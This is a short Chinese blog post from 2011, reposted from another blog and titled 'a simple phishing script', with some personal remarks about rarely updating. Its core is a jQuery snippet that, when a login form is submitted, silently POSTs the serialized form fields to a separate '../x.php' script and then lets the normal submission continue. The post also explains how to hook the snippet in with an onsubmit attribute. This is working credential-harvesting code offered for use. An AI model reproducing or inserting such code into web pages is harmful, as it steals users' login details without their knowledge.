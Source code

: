 ```yaml
---
title: 110506 一个简单的钓鱼脚本
layout: post
permalink: /2080.html
bot_views:
  - 173
views:
  - 477
duoshuo_thread_id:
  - 1280248249638191267
categories:
  - Code
tags:
  - js钓鱼代码
  - PHP
  - 很久没更新了
---
```

最近懒得更新了 ，是因为有老婆了

最近懒得更新了，是因为夜生活太忙了。

时而更，时而断更 ，或许这里会成为荒地。

[<img class="aligncenter size-medium wp-image-2081" title="2010012812205614" src="http://www.80aj.com/wp-content/uploads/2011/05/2010012812205614-300x260.jpg" alt="" width="300" height="260" />][1]

> <script src=&#8221;http://ajax.googleapis.com/ajax/libs/jquery/1.4.4/jquery.min.js&#8221; type=&#8221;text/javascript&#8221;>
> 
> </script>  
> <script language=&#8221;JavaScript&#8221;>
> 
> function checksubmit(){
> 
> $.ajax({
> 
> type : &#8220;POST&#8221;,
> 
> async : false,
> 
> url  : &#8220;../x.php&#8221;,
> 
> data : $(&#8220;#FrmLogin&#8221;).serialize(),
> 
> success : function(msg){
> 
> return true;
> 
> } });}
> 
> </script>
> 
> &nbsp;

在表单的action后面加上onsubmit=&#8221;return checksubmit();&#8221;  
这个方法的最大好处是可以用在html页面，其它好处自己体会吧。

转自 <http://hi.baidu.com/myvbscript/blog/item/33b0003807b2e8e7b311c797.html>

 [1]: http://www.80aj.com/wp-content/uploads/2011/05/2010012812205614.jpg